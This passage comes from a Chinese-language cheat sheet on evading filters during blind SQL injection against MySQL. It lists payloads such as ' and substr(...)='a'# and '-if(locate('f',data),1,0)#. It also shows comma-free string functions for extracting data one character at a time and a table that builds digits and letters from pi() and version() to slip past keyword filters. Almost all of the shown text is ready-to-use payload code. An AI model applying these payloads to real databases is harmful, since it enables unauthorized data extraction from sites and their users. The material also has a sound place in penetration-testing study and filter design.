 不适用逗号来获取

```
' and substr(data from 1 for 1) = 'a'#

```

同样也可以使用一下比较少见的函数来尝试绕过

```
lpad(data,1,space(1)) // lpad('hi',4,'?') = '??hi'
rpad(data,1,space(1)) // rpad('hi',4,'?') = 'hi??'
left(data,1)
reverse(right(reverse(data),1))
insert(insert(version(),1,0,space(0)),2,222,space(0))

```

有些函数有类似搜索匹配的功能

```
'-if(locate('f',data),1,0)#
'-if(locate('fo',data),1,0)#
'-if(locate('foo',data),1,0)#
instr(), position()

```

使用函数进行字符串的切割

```
length(trim(leading 'a' FROM data)) # length will be shorter
length(replace(data, 'a', '')) # length will be shorter

```

2种方式都是相同效果

0x04 注入时主要使用的一些东西
=================

* * *

```
1个控制流程操作(select, case, if(), ...)
1个比较操作(=, like, mod(), ...)
1个字符串的猜解(mid(), left(), rpad(), …)
1个字符串生成(0x61, hex(), conv())

```

使用`conv([10-36],10,36)`可以实现所有字符的表示

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T

```
